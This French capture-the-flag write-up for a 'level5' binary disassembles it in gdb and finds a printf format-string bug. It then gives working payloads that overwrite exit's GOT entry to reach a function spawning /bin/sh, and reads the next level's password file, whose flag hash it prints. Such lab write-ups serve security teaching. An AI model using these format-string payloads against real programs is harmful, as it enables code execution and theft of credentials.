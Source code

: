 # Level5

On observe un exécutable à la racine : `level5`

```shell
$ ./level5
Hello World
Hello World
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level5 -q
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.

```

On va utiliser `Cutter` pour avoir une idée plus claire de `level5`

```shell
$ scp -P 4242 -r level5@192.168.56.102:/home/user/level5/level5 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level5
```

_résultat sauvegardé dans [source.md](source.md)_

La fonction `o` fait un call `system` à `/bin/sh` mais n'est actuellement pas appelée.
Notre objectif ici est de remplacer l'adresse d'`exit` sur la `GOT` par celle de `o`. L'adresse d'`exit` est stockée à l'adresse `0x08049838` et est actuellement `0x080483d6`.

On cherche donc a passer de `0x080483d6 => 0x080484a4`. Il n'y a que les 2 derniers octects à modifier.

A l'adresse `\x39\x98\x04\x08`, nous allons enregistrer <code>84<sub>16</sub>=132<sub>10</sub></code>
Et a l'adresse `\x38\x98\x04\x08`, nous allons enregistrer <code>a4<sub>16</sub>=164<sub>10</sub></code>

```shell
$ (python -c 'print "\x39\x98\x04\x08\x38\x98\x04\x08%124d%4$hhn%32d%5$hhn"'; cat) | ./level5
98
                                            512                     -1208149312
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
Ctrl+D
```

Il est aussi possible de modifier les deux octets en même temps :

```shell
(python -c 'print "\x38\x98\x04\x08" + "%33952d" + "%4$hn"'; cat) | ./level5
```
